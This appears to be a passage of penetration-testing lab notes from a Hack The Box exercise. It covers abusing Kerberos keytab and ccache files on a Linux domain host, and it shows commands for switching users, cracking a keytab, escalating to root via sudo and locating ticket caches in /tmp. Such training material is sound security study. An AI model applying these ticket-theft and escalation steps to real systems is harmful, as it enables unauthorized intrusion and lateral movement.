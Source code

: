 #### Log in as Carlos

```shell-session
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb

Password: 
carlos@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```

### Obtaining More Hashes
Carlos has a cronjob that uses a keytab file named `svc_workstations.kt`. We can repeat the process, crack the password, and log in as `svc_workstations`.

## Abusing Keytab ccache

To abuse a ccache file, all we need is read privileges on the file. 
* These files, located in `/tmp`, can only be read by the user who created them, but **if we gain root access, we could use them.


#### Privilege Escalation to Root
```shell-session
canklesmaks@htb[/htb]$ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
                  
svc_workstations@inlanefreight.htb@10.129.204.23's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)          
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```

As root, we need to identify which tickets are present on the machine, to whom they belong, and their expiration time.

#### Looking for ccache Files

```shell-session
root@linux01:~# ls -la /tmp
```
